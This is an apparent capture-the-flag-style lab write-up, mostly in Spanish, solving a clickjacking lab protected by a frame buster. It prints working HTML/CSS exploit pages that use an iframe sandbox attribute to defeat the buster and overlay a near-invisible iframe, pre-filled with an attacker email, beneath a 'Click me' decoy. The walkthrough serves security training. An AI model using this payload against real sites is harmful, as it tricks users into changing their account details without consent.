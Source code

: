 # Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Sabemos que se puede prellenar el valor del parámetro `email` tramitándolo por GET:
![image](https://github.com/user-attachments/assets/ea697154-6728-495b-b6a7-3fa0d3a5cad1)


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

Hacemos click en `Store` y luego en `View exploit`:
![image](https://github.com/user-attachments/assets/f29ed268-3e30-4360-98d6-5de2afa2b9cc)

Lo primero a resaltar es que no se activa el Frame Buster, no se activa el mensaje "This page cannot be framed”.

El paso siguiente sería bajar un poco más el texto `Click me` para hacerlo coincidir con el botón `Update email`:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

![image](https://github.com/user-attachments/assets/98c13fd5-1e2a-47d7-a432-bbc0a84da673)

El siguiente paso es bajarle la opacidad:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```
![image](https://github.com/user-attachments/assets/683016b4-3991-4c79-a90a-fc8f74279392)

Con este valor de opacidad logramos que el iframe sea imperceptible, el siguiente paso es nuevamente hacer clic en `Store` y luego clic en `Deliver exploit to victim` para resolver el laboratorio:
![image](https://github.com/user-attachments/assets/073bbae2-3e81-4aa8-b903-27162b8c6efa)




